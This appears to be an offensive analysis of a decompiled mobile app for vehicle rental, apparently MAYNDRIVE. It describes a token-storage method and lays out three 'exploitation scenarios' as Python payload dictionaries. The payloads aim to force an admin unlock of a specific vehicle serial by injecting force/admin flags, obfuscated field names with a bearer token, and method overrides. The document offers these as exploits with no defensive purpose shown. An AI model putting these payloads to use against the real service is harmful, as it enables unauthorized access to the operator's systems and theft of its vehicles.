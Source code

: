 ### **5. Token Storage Vulnerabilities**

#### **P3.D Token Storage:**
- **b()**: Returns current access token

#### **Vulnerability Details:**
```java
// From MAYNDRIVE_COMPLETE_ANALYSIS.md
File: base_jadx/sources/P3/D.java
Stores and retrieves the OAuth access token:
- Method b(): Returns the current access token
- Token is used in the Authorization: Bearer header
```

**Attack Vector**: Token storage method exploitation for unauthorized access.

## 🎯 **Exploitation Scenarios**

### **Scenario 1: Admin Coroutine Exploitation**
```python
# Exploit B4.W4 admin/force unlock coroutine
admin_force_payload = {
    "serial_number": "SXB306",
    "lat": 48.8566,
    "lng": 2.3522,
    "force": True,
    "admin": True,
    "coroutine_type": "B4.W4"
}
```

### **Scenario 2: Obfuscated Field Injection**
```python
# Inject obfuscated field names directly
obfuscated_payload = {
    "serial_number": "SXB306",
    "lat": 48.8566,
    "lng": 2.3522,
    "f2925Z": "Bearer <token>",  # Token field
    "f2927g0": "SXB306",         # Serial field
    "f2928h0": {"lat": 48.8566, "lng": 2.3522},  # Location field
    "f2882i0": True              # Force field
}
```

### **Scenario 3: Interface Method Manipulation**
```python
# Exploit T3.I interface methods
method_n_payload = {
    "serial": "SXB306",
    "latitude": 48.856614,
    "longitude": 2.352222,
    "method": "n",  # Unlock method
    "force": True
}
```
